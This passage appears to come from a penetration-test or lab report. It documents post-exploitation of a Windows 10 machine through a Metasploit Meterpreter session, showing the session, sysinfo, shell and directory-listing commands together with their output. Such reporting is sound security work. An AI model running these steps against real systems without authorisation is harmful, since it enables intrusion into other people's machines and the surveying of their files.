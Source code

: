 After establishing the connection, I interacted with the session using:

```
msf6 exploit(multi/handler) > sessions -i 1
```

This provided access to the Meterpreter shell, where various commands were executed to demonstrate the level of access obtained:

#### 4.6.1 System Information Gathering

The `sysinfo` command revealed detailed information about the target system:

```
meterpreter > sysinfo
Computer        : DESKTOP-8L8LKMM
OS              : Windows 10 (10.0 Build 19043)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

#### 4.6.2 Network Information Gathering

I obtained network information using various commands, revealing the target's IP addresses, MAC addresses, and network interfaces.

#### 4.6.3 Shell Access

Shell access was obtained using:

```
meterpreter > shell
Process 10328 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19043.1165]
(c) Microsoft Corporation. All rights reserved.

C:\Users\amshu\Downloads>
```

This provided direct command-line access to the target system, allowing execution of arbitrary commands.

#### 4.6.4 File System Access

I accessed the file system and listed directory contents:

```
C:\Users\amshu\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 6017-91CE

 Directory of C:\Users\amshu\Desktop

09/07/2021  11:05 AM    <DIR>          .
09/07/2021  11:05 AM    <DIR>          ..
09/07/2021  11:05 AM               355 Computer - Shortcut.lnk
               1 File(s)            355 bytes
               2 Dir(s)  20,036,415,488 bytes free
```
